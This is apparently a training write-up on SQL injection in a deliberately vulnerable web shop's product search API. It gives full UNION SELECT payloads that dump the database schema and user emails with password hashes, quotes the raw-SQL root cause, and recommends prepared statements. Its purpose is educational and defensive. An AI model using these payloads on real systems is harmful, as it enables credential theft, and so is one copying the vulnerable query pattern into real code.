 # SQL Injection - Search API
## How To (Vulnerable Website)
1. Go to vulnerable website

2. Update the path in the location bar from `{websiteURL}/#/` to
   `{websiteURL}/rest/products/search?q=')) UNION SELECT sql, '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--`

3. Verify that it returns the entire DB schema and data in the browser

<img src="../how-to-images/sql-injection-search-dbschema.png" width="700"  alt="sql-injection-login-credentials"/>

4. Update the path in the location bar to 
`{websiteURL}/rest/products/search?q=')) union select id,'2','3',email,password,'6','7','8','9' from users--`

5. The data returned in the browser includes the users id as the value of `price` and their hashed passwords as value of `deluxePrice`

<img src="../how-to-images/sql-injection-search-users-list.png" width="700"  alt="sql-injection-login-credentials"/>

## How To (Secured Website)
1. Go to secured website

2. Update the path in the location bar from `{websiteURL}/#/` to
   `{websiteURL}/rest/products/search?q=')) UNION SELECT sql, '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--`

3. It does not return any data

<img src="../how-to-images/sql-injection-no-data.png" width="288"  alt="sql-injection-login-credentials"/>

4. Update the path in the location bar to
   `{websiteURL}/rest/products/search?q=')) union select id,'2','3',email,password,'6','7','8','9' from users--`

5. It does not return any data

<img src="../how-to-images/sql-injection-no-data.png" width="288"  alt="sql-injection-login-credentials"/>

## Root cause
The root cause of the issue is that raw SQL was being used in the search api (routes/search.ts)
```
`SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' OR description LIKE '%${criteria}%') 
AND deletedAt IS NULL) ORDER BY name`)
```

## Mitigations
**Use of Prepared Statements:** Use prepared statements with parameterized queries to prevent SQL injection.
This technique is where the database pre-compiles SQL code and stores the results, separating it from data.


Authored by: Elizabeth Mayer
